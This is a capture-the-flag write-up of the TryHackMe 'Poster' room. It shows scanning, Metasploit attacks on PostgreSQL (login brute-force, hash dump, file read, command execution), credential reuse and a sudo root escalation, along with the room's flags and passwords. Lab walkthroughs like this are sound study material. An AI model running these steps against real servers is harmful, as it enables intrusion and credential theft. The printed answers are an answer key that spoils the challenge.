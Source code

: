 ```yaml
---
title: "TryHackMe Poster Writeup"
date: 2025-02-01
categories: [TryHackMe]
tags: [Metasploit, postgresql, CTF, Cybersecurity, TryHackMe, Writeup, Walkthrough]
description: My write up for Poster Room on TryHackMe.
image:
  path: /assets/img/posts/2025-02-01-THM-Poster/cover.png
---
```


# Poster - CTF

## Target Information
- **IP Address**: `10.10.128.66`
![alt text](/assets/img/posts/2025-02-01-THM-Poster/0.png)
## Enumeration

### RustScan
**Command:**  
```bash
rustscan -a 10.10.128.66
```
**Results:**
```
Open 10.10.128.66:22
Open 10.10.128.66:80
Open 10.10.128.66:5432
```

### Nmap
**Command:**  
```bash
nmap -sV -A -p 22,80,5432 10.10.128.66
```
**Results:**  
```
5432/tcp open  postgresql PostgreSQL DB 9.5.8 - 9.5.10 or 9.5.17 - 9.5.23
```

#### Answer to Question 1:
**What is the rdbms installed on the server?:** `PostgreSQL`


#### Answer to Question 2:
**What port is the rdbms running on?:** `5432`

---

## Exploitation

### Metasploit - Enumerate Users
**Command:**
```bash
msfconsole -q
search postgres
```
**Relevant Module:**  
```
auxiliary/scanner/postgres/postgres_login
```

#### Answer to Question 3:
**After starting Metasploit, search for an associated auxiliary module that allows us to enumerate user credentials. What is the full path of the modules (starting with auxiliary)?:** `auxiliary/scanner/postgres/postgres_login`

### Obtaining Credentials
**Command:**  
```bash
use auxiliary/scanner/postgres/postgres_login
set RHOST 10.10.128.66
run
```
**Credentials Found:**  
```
postgres:password
```

#### Answer to Question 4:
**What are the credentials you found?:** `postgres:password`

### Command Execution with Valid Credentials
**Relevant Module:**  
```
auxiliary/admin/postgres/postgres_sql
```

#### Answer to Question 5:
**What is the full path of the module that allows you to execute commands with the proper user credentials (starting with auxiliary)?:** `auxiliary/admin/postgres/postgres_sql`

### RDBMS Version Discovery
After running the `postgres_sql` module, the version retrieved is:

![alt text](/assets/img/posts/2025-02-01-THM-Poster/2.png)
```
9.5.21
```

#### Answer to Question 6:
**Based on the results of #6, what is the rdbms version installed on the server?:** `9.5.21`

### Dumping User Hashes
**Relevant Module:**  
```
auxiliary/scanner/postgres/postgres_hashdump
```

#### Answer to Question 7:
**What is the full path of the module that allows for dumping user hashes (starting with auxiliary)?:** `auxiliary/scanner/postgres/postgres_hashdump`

### Number of User Hashes Dumped
After executing the hash-dump module, retrieved

![alt text](/assets/img/posts/2025-02-01-THM-Poster/1.png)

**6 user hashes**.


#### Answer to Question 8:
- **How many user hashes does the module dump?:** `6`

### Viewing Files on Server
**Relevant Module:**  
```
auxiliary/admin/postgres/postgres_readfile
```

#### Answer to Question 9:
**What is the full path of the module (starting with auxiliary) that allows an authenticated user to view files of their choosing on the server?:** `auxiliary/admin/postgres/postgres_readfile`

### Arbitrary Command Execution
**Relevant Module:**  
```
exploit/multi/postgres/postgres_copy_from_program_cmd_exec
```

#### Answer to Question 10:
**What is the full path of the module that allows arbitrary command execution with the proper user credentials (starting with exploit)?:** `exploit/multi/postgres/postgres_copy_from_program_cmd_exec`

---

## Privilege Escalation

### Finding `user.txt`
1. Gained shell access at `/var/lib/postgresql/9.5/main`
2. Navigated to home directory and found
![alt text](/assets/img/posts/2025-02-01-THM-Poster/3.png)
 `user.txt` in `alison`'s folder.
3. Lacked permission but discovered `credentials.txt` in the `dark` folder.
4. Retrieved **Dark’s password:** `dark:qwerty1234#!hackme`
5. Used SSH to log in as `dark`, ran `linpeas.sh`, and found **Alison’s password** in `/var/www/html/config.php` which is `p4ssw0rdS3cur3!#`.
![alt text](/assets/img/posts/2025-02-01-THM-Poster/4.png)
6. Logged in as `alison` with the password we got and accessed `user.txt`.

#### Answer to Question 11:
**Compromise the machine and locate user.txt:** `THM{postgresql_fa1l_conf1gurat1on}`

### Escalating to Root
1. Logged in as `Alison` and successfully ran:
   ```bash
   sudo su
   ```
2. Retrieved `root.txt` using:
   ```bash
   cat ~root/root.txt
   ```

#### Answer to Question 12:
**Escalate privileges and obtain root.txt :** `THM{c0ngrats_for_read_the_f1le_w1th_credent1als}`